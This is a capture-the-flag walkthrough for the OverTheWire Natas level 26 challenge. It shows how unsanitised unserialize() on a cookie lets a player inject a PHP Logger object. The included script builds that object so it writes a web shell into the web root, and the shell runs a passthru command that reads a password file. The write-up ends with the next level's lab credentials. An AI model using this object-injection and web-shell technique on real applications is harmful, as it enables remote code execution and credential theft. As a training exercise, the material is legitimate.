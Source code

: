 # Natas 26 Solution

As we inspect the code, we notice that the `Logger` class is suspiciously unused.

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
```

Furthermore, there are multiple calls to PHP's `unserialize` function, passing in unsanatized user input.

```php
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    // ...
}
// ...
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
}
```

As it turns out, there is a [PHP Object Injection Vulernability](https://www.owasp.org/index.php/PHP_Object_Injection) with the `unserialize()` function. If we serialize a `Logger` class, when the PHP script `unserialize`s it, it will run the `__destruct()` function of `Logger`.

Knowing this, all that's left to do is to generate a malicious Logger instance, serialize it, encode it in base64, and set the value of the `drawing` cookie.

We can write a PHP script to help us. ([PHP File Link](../resources/natas26.php))
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file){
        // initialise variables
        $this->initMsg="";
        $this->exitMsg="<?php passthru('cat /etc/natas_webpass/natas27') ?>";

        $this->logFile = "/var/www/natas/natas26/img/evilfile.php";

        // write initial message
        // $fd=fopen($this->logFile,"a+");
        // fwrite($fd,$initMsg);
        // fclose($fd);
    }

    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }

    function __destruct(){
        // write exit message
        // $fd=fopen($this->logFile,"a+");
        // fwrite($fd,$this->exitMsg);
        // fclose($fd);
    }
}

$maliciousLogger = new Logger("myfile");

echo "Evil serialized code!!\n";
echo serialize($maliciousLogger) . "\n";
echo "End evil serialized code\n\n\n";

echo "Base64 encoding:\n\n";
echo base64_encode(serialize($maliciousLogger));
```

In particular note the following lines:
```php
$this->exitMsg="<?php passthru('cat /etc/natas_wbpass/natas27') ?>";
$this->logFile="/var/www/natas/natas26/img/evilfile.php";
```

Finally, we can run the PHP file, copy-paste the encoded serialized object into the value of the cookie `drawing`, reload the page, and visit [http://natas26.natas.labs.overthewire.org/img/evilfile.php](http://natas26.natas.labs.overthewire.org/img/evilfile.php).

**Username: natas27**  
**Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ**

